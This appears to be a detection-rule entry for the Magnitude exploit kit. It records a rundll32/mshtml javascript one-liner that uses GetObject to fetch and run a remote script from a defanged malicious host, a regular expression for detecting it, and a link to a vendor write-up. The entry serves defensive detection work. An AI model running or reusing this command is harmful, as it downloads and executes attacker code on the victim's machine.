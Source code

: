 ## Magnitude EK


#### Commands
---

* Rundll32.exe

1.
```
javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject('script:http://dx30z30a4t11l7be .lieslow[.]faith/5aad4b91a0da20d4faab0991bdbe7138')
```

#### Regular Expressions
---

``
^(?=.*\bjavascript\b)(?=.*\bRunHTMLApplication\b)(?=.*\bGetObject\b)(?=.*\bscript:http\b).*$
``

#### Resources
---

Technical write-ups:
* https://blog.malwarebytes.com/threat-analysis/2018/04/magnitude-exploit-kit-switches-gandcrab-ransomware/

Sandbox reports:
* 

Notes:



 
